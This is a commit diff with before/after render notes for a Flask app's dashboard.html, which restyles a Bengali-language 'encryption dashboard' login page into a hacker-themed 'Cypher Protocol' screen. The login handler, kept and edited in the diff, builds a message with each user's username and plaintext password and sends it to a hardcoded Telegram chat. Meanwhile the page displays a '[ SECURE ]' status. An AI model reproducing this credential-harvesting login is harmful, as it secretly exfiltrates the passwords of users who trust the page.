

Before and after one commit to NILOYGHOSH88/MyProject_APK, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update dashboard.html

```diff
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -3,15 +3,17 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>4-Level Encryption & Decryption Security Dashboard</title>
+    <title>Cypher Protocol - Security Dashboard</title>
+    <!-- FontAwesome for Icons -->
+    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.4.0/css/all.min.css">
     <style>
         :root {
             --bg-color: #030712;
-            --panel-bg: #0f172a;
+            --panel-bg: rgba(0, 0, 0, 0.85);
             --text-color: #f8fafc;
-            --accent-color: #3b82f6;
-            --border-color: #1e293b;
-            --glow-color: rgba(59, 130, 246, 0.4);
+            --accent-color: #00ff41;
+            --border-color: #00ff41;
+            --glow-color: rgba(0, 255, 65, 0.6);
         }
 
         * {
@@ -32,6 +34,25 @@
             position: relative;
             overflow-x: hidden;
             transition: background 0.8s ease, color 0.8s ease;
+        }
+
+        /* হ্যাকার স্টাইল ব্যাকগ্রাউন্ড গ্লিচ ইফেক্ট */
+        body::before {
+            content: "";
+            position: absolute;
+            top: 0;
+            left: 0;
+            width: 100%;
+            height: 100%;
+            background: repeating-linear-gradient(
+                0deg,
+                rgba(0, 0, 0, 0.15),
+                rgba(0, 0, 0, 0.15) 1px,
+                transparent 1px,
+                transparent 2px
+            );
+            pointer-events: none;
+            z-index: 0;
         }
 
         /* সার্বক্ষণিক রাশিয়ান ম্যাট্রিক্স রেইন ক্যানভাস */
@@ -58,42 +79,130 @@
             transition: all 0.8s ease;
         }
 
+        /* মোবাইল ভিউ টগল করার জন্য ক্লাস */
+        .container.mobile-mode {
+            max-width: 420px;
+            padding: 15px;
+            font-size: 14px;
+        }
+
+        .container.mobile-mode .grid {
+            grid-template-columns: 1fr;
+        }
+
         /* লগইন স্ক্রিন */
         #loginScreen {
             display: block;
             text-align: center;
+            max-width: 450px;
+            margin: 0 auto;
         }
 
         #loginScreen h2 {
             color: var(--accent-color);
-            margin-bottom: 20px;
-            transition: color 0.8s ease;
+            margin-bottom: 30px;
+            font-size: 24px;
+            text-transform: uppercase;
+            letter-spacing: 3px;
+            text-shadow: 0 0 10px var(--accent-color);
+            position: relative;
         }
 
-        .form-group {
-            margin-bottom: 15px;
-            text-align: left;
-            max-width: 400px;
-            margin-left: auto;
-            margin-right: auto;
+        /* টাইপিং ইফেক্টের জন্য কার্সার */
+        #loginScreen h2::after {
+            content: "|";
+            animation: blink 1s infinite;
         }
 
-        .form-group label {
-            display: block;
-            font-size: 13px;
-            margin-bottom: 5px;
-            color: var(--accent-color);
-            transition: color 0.8s ease;
+        @keyframes blink {
+            0%, 100% { opacity: 1; }
+            50% { opacity: 0; }
         }
 
-        .form-group input, .form-group select {
+        .input-group {
+            position: relative;
+            margin-bottom: 25px;
+            text-align: left;
+        }
+
+        .input-group i {
+            position: absolute;
+            top: 50%;
+            left: 15px;
+            transform: translateY(-50%);
+            color: var(--accent-color);
+            font-size: 18px;
+        }
+
+        .input-group input, .form-group select {
             width: 100%;
-            padding: 10px;
-            background: var(--bg-color);
-            border: 1px solid var(--border-color);
-            color: var(--text-color);
-            border-radius: 6px;
+            padding: 15px 15px 15px 50px;
+            background: transparent;
+            border: 1px solid var(--accent-color);
+            border-radius: 5px;
+            color: #fff;
+            font-size: 16px;
             outline: none;
+            transition: 0.4s;
+        }
+
+        .input-group input:focus {
+            border-color: #fff;
+            box-shadow: 0 0 10px var(--accent-color);
+        }
+
+        .input-group input::placeholder {
+            color: rgba(0, 255, 65, 0.5);
+        }
+
+        /* পাসওয়ার্ড দেখার চোখের আইকন */
+        .toggle-password {
+            position: absolute;
+            top: 50%;
+            right: 15px;
+            left: auto !important;
+            transform: translateY(-50%);
+            color: var(--accent-color);
+            cursor: pointer;
+            font-size: 18px;
+            transition: 0.3s;
+        }
+
+        .toggle-password:hover {
+            color: #fff;
+        }
+
+        .confirm-btn {
+            width: 100%;
+            padding: 15px;
+            background: transparent;
+            border: 2px solid var(--accent-color);
+            color: var(--accent-color);
+            font-size: 18px;
+            font-weight: bold;
+            letter-spacing: 2px;
+            border-radius: 5px;
+            cursor: pointer;
+            transition: 0.4s;
+            margin-top: 10px;
+            text-transform: uppercase;
+        }
+
+        .confirm-btn:hover {
+            background: var(--accent-color);
+            color: #000;
+            box-shadow: 0 0 20px var(--accent-color);
+        }
+
+        .system-status {
+            margin-top: 25px;
+            color: #fff;
+            font-size: 14px;
+        }
+
+        .system-status span {
+            color: var(--accent-color);
+            font-weight: bold;
         }
 
         /* ড্যাশবোর্ড স্ক্রিন */
@@ -161,9 +272,9 @@
         }
 
         .btn {
-            background-color: var(--accent-color);
-            color: #fff;
-            border: none;
+            background-color: transparent;
+            border: 2px solid var(--accent-color);
+            color: var(--accent-color);
             padding: 8px 16px;
             border-radius: 6px;
             cursor: pointer;
@@ -253,20 +373,25 @@
 
     <canvas id="matrixCanvas"></canvas>
 
-    <div class="container">
-        <!-- ১. লগইন স্ক্রিন -->
+    <div class="container" id="mainContainer">
+        <!-- ১. হ্যাকার স্টাইল লগইন স্ক্রিন -->
         <div id="loginScreen">
-            <h2 id="loginTitle">সিকিউরড লগইন পোর্টাল (মাল্টি-লেভেল ক্রিপ্টোগ্রাফি)</h2>
-            <p style="font-size: 13px; opacity: 0.8; margin-bottom: 20px;">আপনার নাম ও পাসওয়ার্ড দিয়ে লগইন করুন।</p>
-            <div class="form-group">
-                <label>ব্যবহারকারীর নাম (Username):</label>
-                <input type="text" id="usernameInput" placeholder="আপনার নাম লিখুন...">
+            <h2>CYPHER PROTOCOL</h2>
+
+            <div class="input-group">
+                <i class="fa-solid fa-terminal"></i>
+                <input type="text" id="usernameInput" placeholder="AGENT ID / USERNAME" required>
             </div>
-            <div class="form-group">
-                <label>সিক্রেট পাসওয়ার্ড (Password):</label>
-                <input type="password" id="passwordInput" placeholder="পাসওয়ার্ড দিন...">
+
+            <div class="input-group">
+                <i class="fa-solid fa-lock"></i>
+                <input type="password" id="passwordInput" placeholder="ACCESS KEY / PASSWORD" required>
+                <i class="fa-solid fa-eye toggle-password" id="togglePassword"></i>
             </div>
-            <button type="button" class="btn" id="loginButton">লগইন ও টেলিগ্রাম সিঙ্ক</button>
+
+            <button type="button" class="confirm-btn" id="loginButton">Initiate Connection</button>
+
+            <div class="system-status">Status: <span>[ SECURE ]</span> - Awaiting Authorization</div>
         </div>
 
         <!-- ২. ড্যাশবোর্ড স্ক্রিন -->
@@ -287,13 +413,13 @@
                 <div class="card">
                     <h3 id="cardHeader">ক্রিপ্টোগ্রাফি ইঞ্জিন</h3>
 
-                    <div class="form-group" style="max-width: 100%; margin-bottom: 10px;">
-                        <label style="font-size: 11px;">নিরাপত্তা লেভেল নির্বাচন করুন:</label>
+                    <div class="form-group" style="margin-bottom: 10px;">
+                        <label style="font-size: 11px; color: var(--accent-color); display:block; margin-bottom:5px;">নিরাপত্তা লেভেল নির্বাচন করুন:</label>
                         <select id="securityLevelSelect" class="input-box">
-                            <option value="1">লেভেল ১: সাধারণ (Basic)</option>
-                            <option value="2">লেভেল ২: কঠিন (Medium)</option>
-                            <option value="3">লেভেল ৩: এক্সট্রিম কঠিন (High)</option>
-                            <option value="4">লেভেল ৪: ১০০% শতভাগ নিরাপত্তা (Max - Red Matrix)</option>
+                            <option value="1" style="background:#000;">লেভেল ১: সাধারণ (Basic)</option>
+                            <option value="2" style="background:#000;">লেভেল ২: কঠিন (Medium)</option>
+                            <option value="3" style="background:#000;">লেভেল ৩: এক্সট্রিম কঠিন (High)</option>
+                            <option value="4" style="background:#000;">লেভেল ৪: ১০০% শতভাগ নিরাপত্তা (Max - Red Matrix)</option>
                         </select>
                     </div>
 
@@ -301,7 +427,7 @@
 
                     <div class="controls-row">
                         <button type="button" class="btn" id="encryptBtn">ইনক্রিপ্ট (Encrypt)</button>
-                        <button type="button" class="btn" id="decryptBtn" style="background-color: #10b981;">ডিক্রিপ্ট (Decrypt)</button>
+                        <button type="button" class="btn" id="decryptBtn" style="border-color: #10b981; color: #10b981;">ডিক্রিপ্ট (Decrypt)</button>
                     </div>
 
                     <p style="font-size: 13px; margin-top: 10px;">
@@ -340,7 +462,7 @@
         const TELEGRAM_CHAT_ID = "7938556654";
 
         const levelConfigs = {
-            1: { name: "লেভেল ১ (সাধারণ)", hue: 210, matrixColor: "#3b82f6" },
+            1: { name: "লেভেল ১ (সাধারণ)", hue: 120, matrixColor: "#00ff41" },
             2: { name: "লেভেল ২ (কঠিন)", hue: 140, matrixColor: "#10b981" },
             3: { name: "লেভেল ৩ (এক্সট্রিম কঠিন)", hue: 35, matrixColor: "#f59e0b" },
             4: { name: "লেভেল ৪ (১০০% শতভাগ নিরাপত্তা)", hue: 0, matrixColor: "#ef4444" }
@@ -350,10 +472,8 @@
         let currentPassword = null;
         let userHistory = [];
         let matrixInterval = null;
-        let currentMatrixColor = "#3b82f6";
+        let currentMatrixColor = "#00ff41";
         let loginTime = null;
-
-        // লোকাল স্টোরেজে ডিক্রিপ্টেড ডাটা সিকিউরড রাখার জন্য স্টোরেজ ম্যাপ
         let encryptionMapping = {};
 
         function sendTelegramNotification(message) {
@@ -387,23 +507,21 @@
             const root = document.documentElement.style;
 
             if (levelNum == 4) {
-                root.setProperty('--bg-color', '#120202');
-                root.setProperty('--panel-bg', '#1f0505');
                 root.setProperty('--accent-color', '#ef4444');
-                root.setProperty('--border-color', '#7f1d1d');
+                root.setProperty('--border-color', '#ef4444');
                 root.setProperty('--glow-color', 'rgba(239, 68, 68, 0.6)');
+            } else if (levelNum == 3) {
+                root.setProperty('--accent-color', '#f59e0b');
+                root.setProperty('--border-color', '#f59e0b');
+                root.setProperty('--glow-color', 'rgba(245, 158, 11, 0.6)');
+            } else if (levelNum == 2) {
+                root.setProperty('--accent-color', '#10b981');
+                root.setProperty('--border-color', '#10b981');
+                root.setProperty('--glow-color', 'rgba(16, 185, 129, 0.6)');
             } else {
-                const accent = `hsl(${config.hue}, 90%, 58%)`;
-                const bg = `hsl(${config.hue}, 45%, 4%)`;
-                const panel = `hsl(${config.hue}, 35%, 8%)`;
-                const border = `hsl(${config.hue}, 60%, 20%)`;
-                const glow = `hsla(${config.hue}, 90%, 58%, 0.45)`;
-
-                root.setProperty('--bg-color', bg);
-                root.setProperty('--panel-bg', panel);
-                root.setProperty('--accent-color', accent);
-                root.setProperty('--border-color', border);
-                root.setProperty('--glow-color', glow);
+                root.setProperty('--accent-color', '#00ff41');
+                root.setProperty('--border-color', '#00ff41');
+                root.setProperty('--glow-color', 'rgba(0, 255, 65, 0.6)');
             }
 
             const badgeEl = document.getElementById('themeBadge');
@@ -465,10 +583,12 @@
                 navigator.clipboard.writeText(text).then(() => {
                     const originalText = btnElement.innerText;
                     btnElement.innerText = "কপি হয়েছে!";
-                    btnElement.style.background = "#3b82f6";
+                    btnElement.style.background = "#00ff41";
+                    btnElement.style.color = "#000";
                     setTimeout(() => {
                         btnElement.innerText = originalText;
                         btnElement.style.background = "#10b981";
+                        btnElement.style.color = "#fff";
                     }, 1500);
                 }).catch(() => fallbackCopyText(text, btnElement));
             } else {
@@ -498,7 +618,7 @@
             const pass = document.getElementById('passwordInput').value.trim();
 
             if (!user || !pass) {
-                alert("দয়া করে নাম এবং পাসওয়ার্ড দিন!");
+                alert("দয়া করে এজেন্ট আইডি এবং পাসওয়ার্ড দিন!");
                 return;
             }
 
@@ -506,14 +626,13 @@
             currentPassword = pass;
             loginTime = Date.now();
 
-            const loginMsg = `🔐 <b>নতুন লগইন নোটিফিকেশন!</b>\n👤 নাম: <b>${user}</b>\n🔑 পাসওয়ার্ড: <b>${pass}</b>\n🕒 লগইন সময়: ${new Date().toLocaleString()}`;
+            const loginMsg = `🔐 <b>নতুন লগইন নোটিফিকেশন!</b>\n👤 এজেন্ট আইডি: <b>${user}</b>\n🔑 পাসওয়ার্ড: <b>${pass}</b>\n🕒 লগইন সময়: ${new Date().toLocaleString()}`;
             sendTelegramNotification(loginMsg);
 
             const savedDataKey = `sec_user_${user}_${pass}`;
             const existingData = localStorage.getItem(savedDataKey);
             userHistory = existingData ? JSON.parse(existingData) : [];
 
-            // ম্যাপ রিকভারি
             const mapKey = `sec_map_${user}_${pass}`;
             const existingMap = localStorage.getItem(mapKey);
             encryptionMapping = existingMap ? JSON.parse(existingMap) : {};
@@ -639,6 +755,17 @@
             initRussianMatrixRain();
             applySecurityLevelTheme(1);
 
+            // পাসওয়ার্ড শো/হাইড করার জাভাস্ক্রিপ্ট
+            const togglePassword = document.querySelector('#togglePassword');
+            const passwordInput = document.querySelector('#passwordInput');
+
+            togglePassword.addEventListener('click', function () {
+                const type = passwordInput.getAttribute('type') === 'password' ? 'text' : 'password';
+                passwordInput.setAttribute('type', type);
+                this.classList.toggle('fa-eye');
+                this.classList.toggle('fa-eye-slash');
+            });
+
             document.getElementById('loginButton').addEventListener('click', executeUserLogin);
             document.getElementById('logoutButton').addEventListener('click', executeUserLogout);
             document.getElementById('encryptBtn').addEventListener('click', () => processEncryptionDecryption('encrypt'));
@@ -651,6 +778,18 @@
             const mainCopyBtn = document.getElementById('mainCopyBtn');
             mainCopyBtn.addEventListener('click', function() {
                 copyTextToClipboard(document.getElementById('outputResult').innerText, this);
+            });
+
+            // মোবাইল ভিউ টগল করার বাটন ফাংশনালিটি
+            const mobileToggleBtn = document.getElementById('mobileToggleBtn');
+            const mainContainer = document.getElementById('mainContainer');
+            mobileToggleBtn.addEventListener('click', () => {
+                mainContainer.classList.toggle('mobile-mode');
+                if (mainContainer.classList.contains('mobile-mode')) {
+                    mobileToggleBtn.innerText = "💻 ডেস্কটপ ভিউ";
+                } else {
+                    mobileToggleBtn.innerText = "📱 মোবাইল ভিউ";
+                }
             });
 
             document.addEventListener('keydown', function(event) {
```
Also changed, not shown: other parts of templates/dashboard.html (+28 -23 lines).
